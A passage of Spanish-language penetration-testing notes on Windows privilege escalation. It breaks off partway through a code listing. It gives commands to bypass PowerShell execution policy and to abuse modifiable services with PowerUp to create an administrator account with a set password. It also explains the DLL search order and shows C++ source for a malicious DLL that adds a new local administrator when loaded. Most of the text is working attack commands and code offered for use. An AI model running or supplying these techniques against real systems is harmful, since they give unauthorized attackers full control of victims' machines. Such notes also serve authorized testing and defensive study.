     shutdown /r /t 0

#### Iniciamos el sistema y vemos si nuestro usuario ya es parte de los admins

    Get-LocalGroupMember administrators

### EXPLOTACION DE SERVICIOS CON PERMISOS INSEGUROS con powerup (Es más simple, pero puede fallar):

##### 1) Pasamos powerup a la pc victima

##### 2) Bypasseamos las defensas

    powershell -ep bypass
##### 3) llamamosa powerup

    Invoke-Module .\PowerUp.ps1
##### 4) Buscamos servicios con permisos de modificación

    Get-ModifiableServiceFile

##### 5) ejecumatos un comando de abuso sobre el servicio.

Este comando creara un nuevo administrador llamado **john** con la contraseña **Password123!**

    Install-ServiceBinary -Name 'mysql'

---
### DLL hijacking

Las dll son librerías que expanden la funcionalidad de un programa. Windows busca estas librerías en el siguiente orden jerarquico:

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

Podemos incluir una librería con código malicioso en alguno de estos directorios siempre y cuando se encuentre antes de la librería genuina o tengamos permiso de reescribirla.

#### 1) Enumeramos los programas instalados

    Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

#### Creando la dll maliciosa
Creamos un script en cpp

    #include <stdlib.h>
    #include <windows.h>
    
    BOOL APIENTRY DllMain(
    HANDLE hModule,// Handle to DLL module
    DWORD ul_reason_for_call,// Reason for calling function
    LPVOID lpReserved ) // Reserved
    {
        switch ( ul_reason_for_call )
        {
            case DLL_PROCESS_ATTACH: // A process is loading the DLL.
            int i;
      	    i = system ("net user dave3 password123! /add");
      	    i = system ("net localgroup administrators dave3 /add");
            break;
            case DLL_THREAD_ATTACH: // A process is creating a new thread.